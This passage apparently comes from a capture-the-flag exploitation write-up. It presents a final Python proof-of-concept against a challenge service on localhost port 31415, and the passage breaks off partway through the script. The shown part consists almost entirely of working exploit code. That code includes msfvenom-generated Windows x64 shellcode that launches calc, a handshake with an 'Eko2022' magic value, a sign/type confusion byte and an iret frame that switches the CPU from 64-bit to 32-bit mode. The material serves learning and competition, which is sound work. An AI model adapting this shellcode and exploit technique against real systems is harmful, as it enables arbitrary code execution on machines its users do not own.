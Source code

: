 For the final exploit, all that is left to do is generate some shellcode, e.g. `msfvenom -p windows/x64/exec cmd="calc" -f python` .

## Final PoC

```python
#!/usr/bin/env python3
# Author: @xct_de

import sys, socket, struct
p32 = lambda x: struct.pack('<I', x);

TARGET = '127.0.0.1'
PORT = 31415

sc =  b""
#sc += b"\xcc"

sc += b"\xea\x1c\x00\x00\x10\x33\x00" # from 0x10000014 (x86) 0x1000001c (x64)
sc += b"\x48\x89\xC8\x48\x89\xC4"     # restore original stack from rcx

# msfvenom -p windows/x64/exec cmd="calc" -f python
sc += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51"
sc += b"\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52"
sc += b"\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72"
sc += b"\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0"
sc += b"\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
sc += b"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b"
sc += b"\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
sc += b"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44"
sc += b"\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41"
sc += b"\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
sc += b"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1"
sc += b"\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44"
sc += b"\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
sc += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
sc += b"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
sc += b"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
sc += b"\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48"
sc += b"\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d"
sc += b"\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5"
sc += b"\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff"
sc += b"\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
sc += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89"
sc += b"\xda\xff\xd5\x63\x61\x6c\x63\x00"

p=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
p.connect((TARGET,PORT))

# handshake
p.send(b"Hello\x00")
p.recv(3) # Hi\x00

buf = b""
buf += b"Eko2022\x00" # magic value  
buf += b"T" # packet type
buf += b"\xff\xff" # sign/type confusion

# switch from 64-bit to 32-bit via iret
iret = b""
iret += p32(0x10000014) 	
iret += p32(0x23) 			  
iret += p32(0x00010202) 	
iret += p32(0x10000400) 	
```